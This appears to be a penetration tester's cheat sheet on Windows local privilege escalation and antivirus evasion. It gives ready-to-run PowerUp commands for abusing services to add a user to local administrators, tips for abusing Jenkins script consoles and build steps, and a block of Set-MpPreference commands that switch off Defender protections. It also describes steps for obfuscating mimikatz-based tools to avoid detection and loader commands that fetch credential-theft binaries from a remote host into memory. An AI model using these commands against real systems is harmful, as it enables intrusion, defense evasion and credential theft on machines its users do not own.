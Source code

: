 # Local Privilege Escalation / AV Bypass

## Ways for local privesc

* Missing patches
* Automated deployment (e.g. C:\Windows\panther\unattend.xml, C:\Windows\Panther, C:\Windows\Panther\UnattendGC, C:\Windows\System32\sysprep\Panther, s ) and AutoLogon passwords in clear text in Windowds Registry
* AlwaysInstallElevated (Any user can run MSI as SYSTEM)
* Misonfigured Services (e.g. Unquoted Service path, Permissions with Services/Directories
* DLL Hijacking                 &#x20;
* Tools: \
  PowerUp - . .\PowerUp.ps1 Invoke-AllCheck\
  BeRoot - .\beRoot.exe\
  Privesc - . .\PrivEsc.ps1 Invoke-PrivEsc\
  Seatbelt - .\seatbelt.exe all&#x20;

## Service Issues using PowerUp

**Do all checks**

```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```

The Parameter "StartName" is the privilege e.g. LocalSystem\
The Parameter "CanRestart" is useful so we can restart it on our own and dont have to restart machine/wait until the service is restarted

**Get services with unquoted paths an a space in their name**

```powershell
GetServiceUnquoted -Verbose
Get-WmiObject -Class win32_service | select pathname
```

**Get services where the current user can write to its binary path or change arguments to the binary**

```powershell
Get-ModifiableServiceFile -Verbose 
=> Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dom\username'
=> Add your domain user to local admin group!

```

**Get the services whose configuration current user can modify (e.g ACLs of the Service, maybe point service to different executable**

```powershell
Get-ModifiableService -Verbose 
```

## Abusing Enterprise Applications

* If Windows based, the often run as SYSTEM or Local Administrator
* Often overlooked by the Security team
* CI/CD Tools are interesting for abuse because they often need local high privilege - e.g Jenkins
* Jenkins
  * Anonymous read rights are/were default and you could see the build executor like Windows Server....
  * No Bruteforce Protection / No lockout / No PW policy for Jenkins local accounts (Check UserID)
  * When we have admin to Jenkins Server: http://url/script => Get you to the script console, Goovy scripts can be executed
    * That code will run on the build master (not the slaves)
    * ![](<.gitbook/assets/image (6).png>)
  * Try Username:Username, Usern:ReverseOfUsername etc.
  * Try to "Configure"a  Project and add build step "Execute Windows Batch Command and enter "powershell -c \<command>&#x20;
    * http://url/job/\[ProjectName]/configure => 200 Code if we have the permissions=> Check with Burp for all Projects
    * Check all Projects with all Users
    * Put your build step as the first one, so it wil get executed no matter the errors of other steps
    *   E.g

        <figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>



## **AV / Defender  Bypass**

**AMSI Bypass**\
****amsi.fail

**Disable AV Protection/Monitoring**

{% code overflow="wrap" %}
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableArchiveScanning 1 -ErrorAction SilentlyContinue 
Set-MpPreference -DisableBehaviorMonitoring 1 -ErrorAction SilentlyContinue 
Set-MpPreference -DisableIntrusionPreventionSystem 1 -ErrorAction SilentlyContinue 
Set-MpPreference -DisableIOAVProtection 1 -ErrorAction SilentlyContinue 
Set-MpPreference -DisableRemovableDriveScanning 1 -ErrorAction SilentlyContinue 
Set-MpPreference -DisableBlockAtFirstSeen 1 -ErrorAction SilentlyContinue 
Set-MpPreference -DisableScanningMappedNetworkDrivesForFullScan 1 -ErrorAction SilentlyContinue 
Set-MpPreference -DisableScanningNetworkFiles 1 -ErrorAction SilentlyContinue 
Set-MpPreference -DisableScriptScanning 1 -ErrorAction SilentlyContinue 
Set-MpPreference -DisableRealtimeMonitoring 1 -ErrorAction SilentlyContinue
```
{% endcode %}

Kill defender:\
[https://bidouillesecurity.com/disable-windows-defender-in-powershell/](https://bidouillesecurity.com/disable-windows-defender-in-powershell/)\
[https://github.com/jeremybeaume/tools/blob/master/disable-defender.ps1](https://github.com/jeremybeaume/tools/blob/master/disable-defender.ps1)

**Check Powershell Language Mode**

{% code overflow="wrap" %}
```powershell
$ExecutionContext.SessionState.LanguageMode
```
{% endcode %}

\
**AppLocker Policy**

{% code overflow="wrap" %}
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
{% endcode %}

**Identify Code/Strings Defender may flag**\
https://github.com/matterpreter/DefenderCheck => C# without builds\
[https://gist.github.com/daddycocoaman/108d807e89a0f9731304bc848fa219f0](https://gist.github.com/daddycocoaman/108d807e89a0f9731304bc848fa219f0) => python [https://github.com/rasta-mouse/ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) => also c# without builds

DefenderCheck.exe path-to-sharpkatz.exe\
Visutal studio, CTRL + H, Replace all "Credentials" with "whatever", Scope as "Entire Solution", Replace All, Build and recheck

OutCompressedDll.ps1 for SafetyKatz\
[https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1)\
Out-compressedDll mimikatz.exe > output.txt\
Copy $EncodedCompressedFile from output.txt and replace compressedMimikatzString in constants.cs of safetykatz\
Copy the byte size from the output file an replace it in program.cs on line 111 & 116\
Build and recheck

BetterSafetyKatz\
Use mimikatz\_trunk.zip and convert to base64\
Modify program.cs - add new variable with base64, comment the download code, convert base64 to bytes and pass it to zipStream

rubeus.exe - ConfuserEx [https://github.com/mkaring/ConfuserEx](https://github.com/mkaring/ConfuserEx)\


## Payload Delivery

NetLoader https://github.com/Flangvik/NetLoader - Used to load binary from filepath or URL an patch AMSI & ETW wihile executing

Loader.exe -path http://ip/safetykatz.exe

Assemblyload can be used to load NetLoader in-memory from a URL and then loads binary from filepath\
assemblyload.exe [https://github.com/KINGSABRI/AssemblyLoader](https://github.com/KINGSABRI/AssemblyLoader) ????\
assemblyload.exe http://ip/loader.exe -path http://ip/safetykatz.exe



## PrivEsc Scripts

{% embed url="https://github.com/enjoiz/Privesc" %}

. .\privesc.ps1\
Invoke-PrivEsc

{% embed url="https://github.com/AlessandroZ/BeRoot./beRoot.exe" %}

./beroot.exe

{% embed url="https://github.com/HarmJ0y/PowerUp" %}

```powershell
. ./powerup
Invoke-allchecks
Get-ServiceUnquoted -Verbose
Get-ModifiableServiceFile -Verbose
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName '<domain>\<username>'
```

{% embed url="https://github.com/S1ckB0y1337/WinPwn" %}
